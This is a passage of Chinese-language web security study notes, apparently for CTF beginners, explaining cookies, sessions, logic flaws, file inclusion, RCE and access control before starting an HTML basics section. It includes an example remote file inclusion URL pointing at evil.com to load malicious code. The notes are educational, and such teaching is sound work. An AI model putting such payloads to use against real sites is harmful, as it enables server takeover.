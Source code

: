 #### Cookie 与 Session

- **Cookie**：存储在客户端的小型文本文件，通常用于存储用户的偏好设置、身份验证信息等。
    - **示例**：用户登录后，服务器发送一个包含用户ID的Cookie到客户端，客户端在后续请求中自动包含该Cookie，以便服务器识别用户。
    - **Cookie劫持**：攻击者通过XSS攻击或其他手段获取用户的Cookie，从而冒充用户身份。
- **Session**：存储在服务器端的临时数据存储区域，通常用于存储用户的会话状态信息。
    - **示例**：用户登录后，服务器创建一个Session，并将Session ID通过Cookie发送给客户端。客户端在后续请求中包含该Session ID，服务器根据Session ID查找对应的Session数据。
    - 如果服务器被攻破，Session中就可能有一些敏感信息。

#### 逻辑漏洞

验证不充分、想当然的写法、条件竞争、未发现的旁门左道...

- 程序员的傲慢可能会让他认为a==1&&a==2 一定是 false 但...
![逻辑漏洞](./assets/逻辑漏洞.png)

#### 任意文件读与任意代码执行

- 例如一个Web应用允许用户上传头像，但未对上传的文件进行严格的类型和内容检查。攻击者上传一个包含恶意代码的文件，并通过文件包含漏洞执行该代码，从而控制服务器。
- CTF竞赛中，能读服务器上 `/flag` 则读，否则就暗示我们需要 RCE (不然连 flag 在哪个文件都不知道).

#### 文件包含

例如一个Web应用允许用户通过URL参数指定要包含的文件，如`index.php?page=about`。攻击者可以通过构造恶意URL，如`index.php?page=http://evil.com/malicious.php`，包含远程恶意文件，从而执行恶意代码。

#### 越权

例如一个Web应用允许用户查看自己的订单信息，但未正确验证用户的身份。攻击者可以通过篡改URL参数，如`order.php?id=123`，查看其他用户的订单信息。

- 永远不要相信用户的数据！前端代码也许永远不会访问其他用户的数据，但这不代表恶意攻击者就不会。

## 前端：可视化与操作逻辑

前端开发主要关注用户界面的设计和用户交互。在这一部分，我们将学习HTML、CSS和JavaScript的基础知识，以及前端安全的重要性和常见的防护措施。同时，我们会通过经典案例分析前端漏洞的利用方法和防护策略。

### HTML / CSS / JS基础

#### HTML

- 格式：各个标签嵌套的层级结构，每个标签基本上就对应页面上的一个元素

??? HTML例子
    ```
    <!DOCTYPE html>
    <html lang="zh-CN">
    <head>
        <meta charset="UTF-8">
        <title>HTML 和 CSS 示例</title>
        <link rel="stylesheet" href="styles.css">
    </head>
    <body>
        <header>
            <h1>欢迎来到我的网站</h1>
            <nav>
                <ul>
                    <li><a href="#home">首页</a></li>